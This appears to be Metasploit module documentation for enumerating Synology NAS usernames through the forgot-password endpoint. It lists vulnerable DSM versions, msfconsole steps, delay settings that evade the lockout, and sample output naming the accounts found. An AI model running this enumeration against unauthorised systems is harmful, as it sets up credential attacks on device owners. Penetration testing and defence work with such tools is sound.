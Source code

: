 ## Vulnerable Application

This module attempts to enumerate users on the Synology NAS by sending GET requests
for the forgot password URL. The Synology NAS will respond differently if a user is
present or not. These count as login attempts, and the default is 10 logins in 5min to
get a permanent block.  Set delay accordingly to avoid this, as default is permanent.

Vulnerable DSMs are:
 * DSM 6.1 < 6.1.3-15152
 * DSM 6.0 < 6.0.3-8754-4 
 * DSM 5.2 < 5.2-5967-04

Enumeration is case insensitive.

To turn off Auto Block: Control Panel > Security > Auto Block.

To unblock: Control Panel > Security > Auto Block > Allow/Block List > Block List.

### Responses

The server responds with a JSON object and a 'msg' key.  The values translate as:

 * msg 1 - means user can login to GUI
 * msg 2 - means user exists but no GUI login
 * msg 3 - means feature disabled, or patched
 * msg 4 - means no user
 * msg 5 - means auto block is enabled and youre blocked. Default is 10 login attempts, and these

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/http/synology_forget_passwd_user_enum```
  4. Do: ```set rhosts [ip]```
  5. Do: ```set delay [seconds]```
  6. You should hopefully find some usernames

## Options

### Delay

The delay in seconds between enumeration attempts.  Default lockout policy is 10 attempts in 5min,
so this should avoid the lockout.  Default is `31`.

### USER_LIST

The username list to use, defaults to `data/wordlists/unix_users.txt`

## Scenarios

### DS412+ with DSM 5.2-5644 with auto block turned off

  ```
  [*] Processing syn_login.rb for ERB directives.
  resource (syn_login.rb)> use auxiliary/scanner/http/synology_forget_passwd_user_enum
  resource (syn_login.rb)> set rhosts 2.2.2.2
  rhosts => 2.2.2.2
  resource (syn_login.rb)> set delay 0
  delay => 0
  resource (syn_login.rb)> run
  [+] admin - admin group
  [+] avahi - no mail or no priviege
  [+] ftp - no mail or no priviege
  [+] guest - no mail or no priviege
  [+] lp - no mail or no priviege
  [+] mysql - no mail or no priviege
  [+] nobody - no mail or no priviege
  [+] ntp - no mail or no priviege
  [+] postfix - no mail or no priviege
  [+] postgres - no mail or no priviege
  [+] root - no mail or no priviege
  [+] ROOT - no mail or no priviege
  [+] http://2.2.2.2:5000/ - Users found: ROOT, admin, avahi, ftp, guest, lp, mysql, nobody, ntp, postfix, postgres, root
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
